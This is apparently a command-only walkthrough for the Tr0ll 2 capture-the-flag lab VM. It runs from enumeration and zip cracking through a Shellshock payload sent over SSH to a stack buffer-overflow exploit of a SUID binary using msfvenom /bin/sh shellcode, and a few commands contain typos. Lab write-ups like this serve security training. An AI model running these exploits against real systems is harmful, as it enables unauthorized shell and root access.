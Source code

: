 Commands:

netdiscover -i eth1

nmap -p- -A (Tr0ll 2 IP)

ftp (Tr0ll 2 IP)
get lmao.zip
quit

dirb http://(Tr0ll 2 IP)

dirb http://(Tr0ll 2 IP) dirs

cd ~/Downloads

ls cat* -la

strings cat_the_troll3.jpg

vi base64
base64 --decode base64 | sort | uniq > decoded


fcrackzip -u -D -p decoded lmao.zip

chmod 700 noob

ssh noob@(Tr0ll 2 IP) -i noob

ssh -vv noob@(Tr0ll 2 IP) -i noob

ssh noob@(Tr0ll 2 IP) -i noob '() { :;}; echo SHELLSHOCK'
ssh noob@(Tr0ll 2 IP) -i noob '() { :;}; /bin/bash'

ssh-keygen -b 2048 -t rsa
echo "KEY" > .ssh/authorized_keys
ssh noob@192.168.56.120 -I .ssh/id_rsa

find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null

./r00t $(python -c 'print "A" * 1000')

locate pattern_create

pattern_create.rb -l 1000

gdb r00t

r (pattern from pattern_create.rb)

locate pattern_offset

pattern_offset.rb -q (string from gdb)

r $(python -c 'print "A" * 268 + "B" * 4')

env - gdp r00t

show env

unset env LINES
unset env COLUMNS

run $(python -c 'print "A" * 268 + "BBBB" + "\x90" * 16 + "C" * 100')

info registers

msfvenom --platform linux -p linux/x86/exec -f py CMD="/bin/sh" -b '\x00\x0a\x0d' -a x86 -e x86/shikata_ga_nai

env - ./root $(python -c 'print "A" * 268 + "\x80\xfc\xff\xbf" + "\x90" * 16 + "(MSFVENOM PAYLOAD)"')
